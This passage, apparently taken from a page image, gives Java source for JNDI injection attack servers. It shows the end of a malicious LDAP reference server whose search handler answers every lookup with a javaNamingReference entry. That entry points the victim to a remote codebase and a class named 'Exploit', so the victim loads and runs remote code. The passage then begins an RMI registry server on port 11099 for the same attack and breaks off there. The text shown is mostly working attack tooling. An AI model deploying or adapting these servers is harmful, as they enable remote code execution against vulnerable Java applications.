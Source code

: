 ```java
            this.codebase = cb;
        }

        /**
         * {@inheritDoc}
         *
         * @see com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor#processSearchResult(com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult)
         */
        @Override
        public void processSearchResult ( InMemoryInterceptedSearchResult result ) {
            String base = result.getRequest().getBaseDN();
            Entry e = new Entry(base);
            try {
                sendResult(result, base, e);
            }
            catch ( Exception e1 ) {
                e1.printStackTrace();
            }

        }

        protected void sendResult ( InMemoryInterceptedSearchResult result, String base, Entry e ) throws LDAPException, MalformedURLException {
            URL turl = new URL(this.codebase, this.codebase.getRef().replace('.', '/').concat(".class"));
            System.out.println("Send LDAP reference result for " + base + " redirecting to " + turl);
            e.addAttribute("javaClassName", "Exploit");
            String cbstring = this.codebase.toString();
            int refPos = cbstring.indexOf('#');
            if ( refPos > 0 ) {
                cbstring = cbstring.substring(0, refPos);
            }
            e.addAttribute("javaCodeBase", cbstring);
            e.addAttribute("objectClass", "javaNamingReference");
            e.addAttribute("javaFactory", this.codebase.getRef());
            result.sendSearchEntry(e);
            result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
        }

    }
}
```

**RMI**

```java
package com.JNDI;

import com.sun.jndi.rmi.registry.ReferenceWrapper;

import javax.naming.NamingException;
import javax.naming.Reference;
import java.rmi.AlreadyBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class RMIServer {
    public static void main(String[] args) throws RemoteException, NamingException, AlreadyBoundException {
        Registry registry = LocateRegistry.createRegistry(11099);
        System.out.println("Java RMI registry created. port on 11099");
```